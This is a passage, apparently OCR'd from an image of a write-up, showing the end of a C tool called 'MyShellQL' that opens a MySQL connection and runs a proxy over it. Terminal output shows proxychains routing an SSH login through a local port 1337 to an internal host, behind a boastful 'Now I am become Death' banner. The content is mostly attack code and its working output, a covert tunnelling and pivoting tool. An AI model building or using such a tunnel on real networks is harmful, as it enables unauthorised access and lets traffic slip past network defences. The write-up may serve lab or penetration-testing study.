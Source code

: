 ```c
						write(select_fd[0], test, nread);
					}
				}	
			}
		}
	}

	
	
}


int main (int argc, char **argv) {
	MYSQL *con = mysql_init(NULL);
	
	if (con == NULL) {
		fprintf(stderr, "%s\n", mysql_error(con));
		exit(1);
	}
	if (mysql_real_connect(con, "Y.Y.Y.Y", "username", "password", NULL, 0, NULL, 0) == NULL) {
		fprintf(stderr, "%s\n", mysql_error(con));
		mysql_close(con);
		exit(1);
	}

	proxy_init(3);
	exit(0);
}

```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Compile and run:

(Terminal 1)
```
root@insularaptor:/tmp# ./MyShellQL 
[ SERVER BANNER ]

Now I am become Death
And this is my Child

[ RUN YOUR PROXYCHAINS NOW ]
```

(Terminal 2)
```
root@insularaptor:/tmp# proxychains ssh mothra@192.168.245.197
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1337-<><>-192.168.245.197:22-<><>-OK
mothra@192.168.245.197's password: 
Linux arcadia 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec  7 19:22:36 2019 from 127.0.0.1
mothra@arcadia:~|⇒  exit
Connection to 192.168.245.197 closed.

```
